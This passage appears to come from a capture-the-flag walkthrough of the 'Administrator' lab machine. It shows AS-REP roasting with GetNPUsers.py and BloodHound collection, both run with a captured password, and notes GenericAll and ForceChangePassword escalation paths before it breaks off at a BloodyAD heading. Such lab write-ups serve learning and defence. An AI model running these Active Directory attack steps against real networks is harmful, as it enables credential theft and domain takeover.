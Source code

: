 Now that we have olivia's creds we can confirm that there's no asrep roastable users
```bash
GetNPUsers.py administrator.htb/olivia:ichliebedich -request -format hashcat -outputfile hashes.asreproast
```

## BloodHound

Running bloodhound-python to get ldap data to be injested in BloodHound from our local linux box
```bash
bloodhound-python \
  -u olivia \
  -p 'ichliebedich' \
  -c All \
  -d administrator.htb \
  --dns-timeout 10 \
  -ns 10.10.11.42
```

Starting bloodhound and injesting the data
```bash
sudo neo4j start
bloodhound &
```

Olivial has `GenericAll` on Michael

![michael.png](michael.png)


And Michael has `ForceChangePassword` on Benjamin
![benjamin.png](benjamin.png)


## BloodyAD
